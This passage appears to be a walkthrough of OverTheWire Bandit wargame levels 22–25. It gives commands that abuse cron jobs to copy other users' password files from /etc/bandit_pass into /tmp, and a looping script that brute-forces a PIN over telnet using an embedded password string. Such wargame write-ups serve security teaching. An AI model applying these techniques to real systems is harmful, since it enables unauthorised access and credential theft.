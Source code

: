 The user's `crontab` writes the contents of their password file to a file readable by everyone in `/tmp`.

```bash
cat /etc/cron.d/cronjob_bandit22

cat /usr/bin/cronjob_bandit22.sh 
```

## Level 23 {#level-23}

The user's `crontab` writes the contents of their password file to a file readable by everyone in `/tmp`.

```bash
cat /etc/cron.d/cronjob_bandit23 

cat /usr/bin/cronjob_bandit23.sh 

echo I am user bandit23 | md5sum | cut -d ' ' -f 1

cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

## Level 24 {#level-24}

The `crontab` runs every minute, executes scripts in `/var/spool/bandit24`, then removes them. If the script is owned by `bandit23`, it waits 60 seconds to kill the script.

1. Write this oneliner to a script and make it executable.

```bash
vi 24.sh
chmod +x 24.sh
```

```bash
#! /usr/bin/env bash

cat /etc/bandit_pass/bandit24 | tee /tmp/path/bandit24
```

2. Replace `/tmp/path` with whatever was created by `mktemp -d`
3. Copy `24.sh` to `/var/spool/bandit24` and wait for the next minute

## Level 25 {#level-25}

```bash
#! /usr/bin/env dash

# Execute the script, then pipe to telnet
# /path/to/script | telnet $host $port

# Wait for a telnet prompt
sleep 1

# Iterate i from 0 to 10000 to brute force the PIN
n=0
while [ $n -le 10000 ]
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $n"
    n=$((n + 1))
    # telnet closes the connection if there is no wait period between attempts
    sleep .1
done
```
